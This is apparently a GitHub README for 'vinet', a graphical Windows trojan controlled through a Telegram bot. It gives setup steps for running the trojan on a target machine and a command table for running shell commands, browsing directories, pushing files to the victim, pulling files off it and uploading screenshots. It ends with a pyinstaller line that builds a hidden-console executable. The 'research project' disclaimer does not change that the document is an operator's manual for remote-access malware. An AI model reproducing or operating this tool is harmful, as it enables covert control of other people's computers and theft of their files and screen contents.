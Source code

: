 # vinet v0.18.6
## gui trojan for windows

This is a graphical trojan created with [pybotnet](https://github.com/onionj/pybotnet) and tkinter 

> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf.

### usage:
1. run VINET.exe on target system
2. Fill in the fields and click the Start button
3. TOKEN == telegram bot api token (Get it from the telegram @botfather) (trojan control pannel)
4. ID == telegram account number ID (get it from @userinfobot) (trojan admin chat id)
5. See Admin panel commands at the end of this page

### Screenshot:
![VINET](https://github.com/onionj/vinet/blob/master/screenshot/screenshot_vinet.png "VINET GUI")

[Download link](https://github.com/onionj/vinet/releases)
    
### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system
* import file from target system 
* get screenshot


### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`    `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |




compile app with pyinstaller: `pyinstaller --noconsole --onefile -i "icon.ico" vinet.py`

> if you want use this app on windows 7, compile with python 3.7

